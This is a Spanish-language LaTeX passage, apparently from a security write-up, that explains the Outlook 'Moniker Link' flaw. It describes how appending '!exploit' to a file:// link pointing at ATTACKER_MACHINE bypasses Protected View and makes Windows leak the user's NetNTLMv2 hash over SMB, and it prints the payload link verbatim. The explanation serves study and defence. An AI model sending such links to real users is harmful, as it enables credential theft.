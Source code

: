 \subsection{Moniker Link}
Para comprender el mecanismo central de esta explotación, es fundamental conocer qué es un ``Moniker''. En la arquitectura del sistema operativo Windows, un Moniker de COM (Component Object Model) es un objeto que actúa como un identificador para localizar y enlazar de forma dinámica a otro objeto, archivo o componente del sistema.\\
Normalmente un hipervínculo que apunta a un archivo en una red local utilizaría se vería de la siguiente manera:
\begin{verbatim}
	file://ATTACKER_MACHINE/test
\end{verbatim}
Cuando Outlook recibe este enlace, lo procesa con las precauciones de red correspondientes.
La vulnerabilidad se encuentra al poner deliberadamente un signo de exclamación ! al final de la ruta del archivo, similar a esta estructura:
\begin{verbatim}
	file://ATTACKER_MACHINE/test!exploit
\end{verbatim}
Al encontrar el signo !, Outlook deja de tratar la cadena como una simple ruta de archivo remota. En su lugar, el sistema lo interpreta como una llamada a un objeto COM. Al cambiar la interpretación, Outlook asume que está interactuando con un componente de software legítimo y salta por completo las verificaciones de la Vista Protegida.\\
Para instanciar este ``objeto'' solicitado en el enlace, Windows es forzado a comunicarse inmediatamente con el servidor remoto (nuestra máquina atacante) a través del protocolo SMB. El sistema intenta autenticarse en nuestro servidor falso, filtrando el hash NetNTLMv2 del usuario activo a nuestra máquina atacante.

